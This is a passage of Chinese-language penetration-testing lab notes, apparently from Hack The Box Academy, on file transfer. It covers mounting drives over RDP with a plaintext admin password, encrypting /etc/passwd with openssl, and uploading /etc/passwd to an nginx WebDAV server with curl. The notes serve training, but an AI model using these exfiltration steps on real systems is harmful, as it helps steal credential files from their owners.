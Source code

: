### 3. RDP

```shell
# 使用 rdesktop 挂载 Linux 文件夹
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
# 使用 xfreerdp 挂载 Linux 文件夹
 xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

## 五、受保护的文件传输

### 1. Windows 文件加密

> 使用 [Invoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions/Invoke-AESEncryption.ps1) PowerShell 脚本

```shell
# 导入模块调用
Import-Module .\Invoke-AESEncryption.ps1
# 文件加密示例
Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
```

### 2. Linux 文件加密

```shell
# 使用 openssl 加密 /etc/passwd
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc

# 使用 openssl 解密 passwd.enc
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd     
```

## 六、通过 HTTP/S 捕获文件

### 1. Nginx

```shell
# 创建一个目录来处理上传的文件
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
# 将所有者更改为 www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
# 创建 Nginx 配置文件  /etc/nginx/sites-available/upload.conf
    server {
        listen 9001;

        location /SecretUploadDirectory/ {
            root    /var/www/uploads;
            dav_methods PUT;
        }
    }
# 将我们的站点符号链接到启用站点的目录
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
# 启动 Nginx
sudo systemctl restart nginx.service
# 使用 CURL 上传文件
curl -T /etc/passwd 
http://localhost:9001/SecretUploadDirectory/users.txt
```

